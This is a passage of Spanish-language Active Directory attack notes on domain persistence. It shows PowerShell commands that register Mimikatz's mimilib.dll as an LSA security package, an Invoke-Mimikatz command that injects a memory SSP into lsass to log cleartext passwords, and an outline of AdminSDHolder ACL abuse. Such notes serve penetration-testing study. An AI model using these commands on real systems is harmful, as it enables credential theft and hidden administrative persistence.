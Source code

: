 Kerberos

Wdigest

CredSSP

Mimikatz proporciona un SSP personalizado: mimilib.dll. Este SSP registra los inicios de sesión locales, la cuenta de servicio y las contraseñas de la cuenta de la máquina en texto sin cifrar en el servidor de destino.

Podemos usar cualquiera de las formas:

Soltamos el mimilib.dll a system32 y añadimos mimilib a HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages:

`$packages = Get-ItemProperty
HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security 
Packages'| select -ExpandProperty 'Security Packages'
$packages += "mimilib"`

`Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages`

`Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name
'Security Packages' -Value $packages`

Usando mimikatz para inyectar a lsass(No funciona en server 2016 y 2019):

`Invoke-Mimikatz -Command '"misc::memssp"'`

**Domain Persistence –Malicious SSP**

Todos los inicios de sesión locales en el DC se registran en: C:\Windows\system32\kiwissp.log

**Domain Persistence using ACLs – AdminSDHolder**

- Reside en el contenedor del sistema de un dominio y se usa para controlar los permisos, usando una ACL, para ciertos grupos privilegiados integrados (llamados grupos protegidos).
- El propagador de descriptores de seguridad (SDPROP) se ejecuta cada hora y compara la ACL de los grupos y miembros protegidos con la ACL de AdminSDHolder y cualquier diferencia se sobrescribe en la ACL del objeto.

![/assets/images/images_AD/Active%20Directory%20Domain%20Dominance/Untitled%204.png](/assets/images/images_AD/Active%20Directory%20Domain%20Dominance/Untitled%204.png)
